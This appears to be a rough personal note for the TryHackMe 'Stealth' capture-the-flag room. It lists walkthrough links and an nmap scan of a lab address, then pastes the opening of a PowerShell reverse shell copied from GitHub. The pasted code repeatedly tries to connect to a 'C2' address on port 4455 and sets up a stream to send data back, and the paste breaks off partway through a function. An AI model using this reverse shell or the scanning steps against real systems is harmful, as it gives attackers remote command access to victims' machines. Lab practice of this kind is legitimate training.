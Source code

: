
https://happycamper84.medium.com/tryhackme-stealth-walkthrough-ea84fcf54b8b


https://sumanroy.gitbook.io/ctf-writeups/tryhackme-writeups/stealth-tryhackme-walkthrough-writeup#credits-to-my-friends-for-helping-me-research-on-this-room




https://systemweakness.com/stealth-tryhackme-write-up-aa684e97575a



nmap -p139,3389,445,47001,49664,49665,49666,49667,49668,49670,49671,5985,8000,8080,8443 -sV -sC -Pn -vvv -n 10.201.71.91 -oN fullScan.txt







PowerShell-reverse-shell

https://github.com/martinsohn/PowerShell-reverse-shell


[powershell-reverse-shell.ps1](https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1)









do {
    # Delay before establishing network connection, and between retries
    Start-Sleep -Seconds 1

    # Connect to C2
    try{
        $TCPClient = New-Object Net.Sockets.TCPClient('127.0.0.2', 4455)
    } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

# Writes a string to C2
function WriteToStream ($String) {
    # Create buffer to be used for next network stream read. Size is determined by the TCP client recieve buffer (65536 by default)
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
